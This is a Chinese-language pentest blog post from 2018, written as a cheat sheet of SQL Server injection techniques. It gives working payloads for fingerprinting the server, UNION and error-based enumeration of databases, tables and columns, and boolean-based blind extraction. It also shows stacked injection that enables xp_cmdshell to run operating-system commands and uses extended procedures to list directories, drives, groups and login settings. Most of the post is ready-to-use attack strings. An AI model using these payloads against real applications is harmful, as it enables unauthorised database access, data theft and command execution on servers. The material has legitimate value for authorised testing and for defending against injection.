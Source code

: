 ```yaml
---
draft: false
date: 2018-09-04 10:09:17
title: SQL注入 tips(SQL Server)
description: SQL Server 注入常见的一些注入手法
categories:
  - Pentest
tags:
  - injection
---
```


### 0x00 基础信息探测
```sql
@@VERSION,@@SERVERNAME,@@SERVICENAME;
--Microsoft SQL Server 2008 (RTM) - 10.0.1600.22 (X64) 
--WIN-2008
--MSSQLSERVER

USER,CURRENT_USER,SESSION_USER,SYSTEM_USER;
--dbo
--dbo
--dbo
--sa

USER_NAME(),HOST_NAME(),HOST_ID(),SUSER_NAME();
--dbo
--wyb
--46530
--sa

USER_ID(),USER_SID();
--1
--<01>

ORIGINAL_LOGIN();
--sa
```

### 0x01 UNION query & error-based 注入
* 判断存在注入

```
and 1=1/and 1=2
```
```sql
select * from msg where id=1 and 11=(select case when(1=1) then 11 else 2 end);

select * from msg where id=1 and 11=(select case when(1=2) then 11 else 2 end);
```

* 判断是否为sa权限

```sql
select name from msg where id=1 and 1=convert(int,(select is_srvrolemember('sysadmin')));
```

![55](/img/post/20180904-105516.png)

* 得到所有数据库名字
![75](/img/post/20180904-110306.png)

```sql
--得到数据库名，前6个是系统自带的数据库，所以从第7个开始，dbid依次增加即可得到所有数据库
id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=7);
id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=8);

--通过 not in 依次得到数据库名
id=1 and 0<>(select top 1 name from master.dbo.sysdatabases where dbid>6 and name not in (select top 1 name from master.dbo.sysdatabases where dbid>6))
id=1 and 0<>(select top 1 name from master.dbo.sysdatabases where dbid>6 and name not in (select top 2 name from master.dbo.sysdatabases where dbid>6))
```

![75](/img/post/20180904-151240.png)

* 得到数据库test的所有表名（用户创建的表xtype的值是U）
![70](/img/post/20180904-111912.png)

```sql
--得到数据库test的第一张表
id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U';

--得到数据库test的第二张表方法一
id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in ('article');
--得到数据库test的第二张表方法二
id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in (select top 1 name from test.dbo.sysobjects where xtype='U');
```
![80](/img/post/20180904-151551.png)

* 得到数据库test的表article的所有列名
    * 可以分两步：先得到article的表id，然后得到列名
    ![60](/img/post/20180904-112859.png)
    ![75](/img/post/20180904-112938.png)

    * <f>也可直接一条命令直接得到列信息</f>
    ```
    select id,name from syscolumns where id=(select id from sysobjects where name='msg');
    ```

* 得到数据库test的表article的数据
![75](/img/post/20180904-113720.png)

### 0x02 boolean-based blind 注入
```sql
?id=1 and substring(db_name(),1,1)='a' --
?id=1 and substring(db_name(),1,1)='b' --
```

```sql
-- 转换为数字
?id=1 and unicode(substring((select db_name()),1,1))>88 --
?id=1 and ascii(substring((select db_name()),1,1))>88 --
```

```sql
-- 转换为16进制
id=1 and (select master.dbo.fn_varbintohexstr(CONVERT(varbinary(30),(substring(db_name(),1,1)))) from master..sysdatabases where dbid=1) not in ('0x7400')
```

### 0x03 Stacked 注入
* 执行系统命令

```bash
#判断xp_cmdshell是否被删除
?id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell');

#开启xp_cmdshell
?id=1;exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;--

#使用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami';
```

* 文件操作

```
#列目录、文件
exec master..xp_dirtree 'c:\wwwroot',1 #列c:\wwwroot下的文件夹 
exec master..xp_dirtree 'c:\wwwroot',1,1 #列c:\wwwroot下的文件夹和文件

exec master..xp_subdirs 'c:\wwwroot' #列c:\wwwroot下的文件夹

#显示系统可用盘符
exec master..xp_availablemedia
```

* 主机、中间件信息

```
#获得MS SQL的版本号
exec master..sp_msgetversion

#列出服务器上所有windows本地用户组
exec master..xp_enumgroups

#得到当前sql server服务器的计算机名称
exec master..xp_getnetname

#服务器安全模式信息
exec master..xp_loginconfig
```
